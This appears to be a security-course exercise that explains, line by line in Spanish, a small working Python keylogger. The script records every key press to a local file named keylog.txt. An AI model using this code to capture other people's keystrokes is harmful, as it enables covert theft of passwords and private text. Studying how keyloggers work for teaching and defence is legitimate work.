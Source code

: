 # SI_T5_P1
1. import keyboard

   Esta línea importa la biblioteca keyboard, que permite interactuar con el teclado y escuchar las pulsaciones de teclas.
2. def pressedKeys(key):

   Aquí se define una función llamada pressedKeys que toma un argumento key. Esta función se ejecutará cada vez que se presione una tecla.
3. with open("keylog.txt", "a") as file:

   Dentro de la función, se abre (o crea si no existe) un archivo llamado keylog.txt en modo de adjuntar (a). Esto significa que cualquier nueva información se añadirá al final del archivo sin sobrescribir el contenido existente.
4. if key.name == "space":
    file.write(" ")
else:
    file.write(key.name)
    
   Se comprueba si la tecla presionada es la barra espaciadora (space). Si es así, se escribe un espacio en el archivo. Si no, se escribe el nombre de la tecla presionada.
5. keyboard.on_press(pressedKeys)

   Esta línea registra la función pressedKeys para que se llame cada vez que se presione una tecla.
6. keyboard.wait()

   Esta línea hace que el programa espere indefinidamente hasta que se presione una tecla. Mantiene el programa en ejecución para seguir registrando las teclas.
